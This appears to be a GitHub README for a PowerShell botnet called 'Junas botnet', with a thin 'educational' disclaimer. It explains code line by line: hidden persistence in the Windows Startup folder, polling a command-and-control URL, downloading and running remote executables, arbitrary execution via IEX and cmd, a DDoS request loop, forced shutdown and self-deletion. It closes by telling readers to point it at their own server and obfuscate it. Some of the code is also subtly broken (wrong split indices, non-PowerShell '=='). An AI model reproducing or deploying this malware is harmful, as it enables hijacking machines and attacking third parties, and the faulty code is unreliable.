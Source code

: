 ## Junas botnet
### *Legal*
<br> This is an educational script and should not be used for illegal/unethical actions against machines you do not own/have permission to infect
<br> 
<br> *Copyright (c) 2021 Pokesi All Rights Reserved.*
### *How it works **step by step***
<br> Syntax used:
<br> `Line of code/variable` - Explanation
<br> ... `Line of code` - Explanation [not required]
<br> ...... `Line of code` - Explanation [only used for branches]
<br> ... `}` - Ends the branch
<br> 
<br> `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> `$botnetCode` - `$botnetCode` is set to the botnet code. Keep in mind that the `.ps1` file is just an installer for the botnet, the actual thing is in this variable. The following is `$botnetCode`.
<br> ... `Add-Type -AssemblyName System.IO.Compression.FileSystem;` - Adds the type used to extract `.zip` files. Used when extracting downloaded files.
<br> ... `$wc = [System.Net.WebClient]::new();` - Starts a WebClient instance in variable `$wc`. Used for downloading files. An alternative may be curl.exe, but is not tested.
<br> ... `$commandcontrolserver = "https://yoursite.com/server.txt";` - Sets `$commandcontrolserver` to https://yoursite.com/server.txt, which is the file that has the command for the botnet.
<br> ... `$wc.DownloadFile("$commandcontrolserver","command.txt");` - Downloads the command and control file to command.txt. Alternative with curl.exe may be `curl.exe --output=command.txt -X GET https://yoursite.com/server.txt`, not tested.
<br> ... `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> ... `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> ... `$cmd = (Get-Content -Path "./command.txt" -TotalCount 1)` - Sets the `$cmd` variable to the first line of `command.txt`.
<br> ... `if ($cmd == "Stop") {` - Checks if `$cmd` is "Stop". This stops the botnet.
<br> ...... `exit()` - Exits PowerShell
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Dl&Run *") {` - Checks if `$cmd` starts with "Dl&Run". This downloads a .zip file, extracts it, and runs the .exe specified. In server.txt, this should look like `Dl&Run https://fileupload.com/application.zip:application.exe`. The provided example will download `application.zip`, extract it, and run application.exe inside the extracted folder.
<br> ...... `$cmd2 = $cmd.split("Dl&Run ")[0];` - Sets `$cmd2` to the command passed to the script, but stripped of "Dl&Run"
<br> ...... `$fileToDownload = $cmd2.Split(":")[0];` - Sets `$fileToDownload` to the file the operator wants to download.
<br> ...... `try {` - PowerShell try
<br> ......... `$wc.DownloadFile("$fileToDownload","botnet.zip");` - Downloads `$fileToDownload` to `botnet.zip`
<br> ......... `cmd.exe /c "mkdir folder";` - Runs cmd.exe [command prompt] with the `/c` switch, which executes a command. In this case, `mkdir folder` is run, which makes a folder called "folder"
<br> ......... `Expand-Archive -LiteralPath "./botnet.zip" -DestinationPath "./folder"` - Extracts the downloaded file to `/folder`.
<br> ......... `Start-Process -filepath "./folder/" + ($cmd2.Split(":")[2]) + ".exe";` - Runs the file.
<br> ...... `}` - Ends the branch
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "IEX *") {` - Checks if `$cmd` starts with "IEX". If it does, it will execute the given string.
<br> ...... `$cmd3 = $cmd.split("IEX ")[0];` - Sets `$cmd3` to the command passed to the script, but stripped of IEΧ.
<br> ...... `IEX($cmd3);` - Runs the string with IEX.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "DDoS *") {` - Checks if `$cmd` starts with "DDoS". If it does, it will make a batch file in Startup that runs constant requests of that site.
<br> ...... `$cmd4 = $cmd.split("DDoS ")[0];` - Sets `$cmd4` to the command passed to the script, but stripped of DDoS
<br> ...... `":start ; curl -X GET $ddos; goto start" | Out-File "$startUpFolder\btnet.bat" -Force` - Makes a batch file in Startup that runs constant requests of that site.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Cmd *") {` - Checks if `$cmd` starts with "Cmd". If it does, it will execute `cmd.exe` with the switch `/c` to execute a command.
<br> ...... `$cmd5 = $cmd.split("Cmd ")[0];` - Sets `$cmd5` to the command passed to the script, but stripped of Cmd.
<br> ...... `cmd /c "$cmd5";` - Executes `cmd.exe` with the switch `/c` to execute a command.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd == "Shutdown") {` - Checks if `$cmd` is Shutdown. If it does, it will shutdown the machine.
<br> ...... `Stop-Computer;` - Shutdown machine
<br> ... `}` - Ends the branch
<br> ... `else {` - If nothing else works, do this.
<br> ...... `exit;` - Stops the script
<br> ... `}` - Ends the branch
<br> ... `Remove-Item -Path "./command.txt";` - Removes command.txt
<br> `"powershell -WindowStyle hidden -Command '$botnetCode'" | Out-File "$startUpFolder\default.bat";` - Writes `$botnetCode` to a Startup file.
<br> `Remove-Item -Path $MyInvocation.MyCommand.Source;` - Self-Destructs.
### *Usage*
<br> Change https://yoursite.com/server.txt to your command and control server.
<br> You may want to obfuscate this or add custom commands.
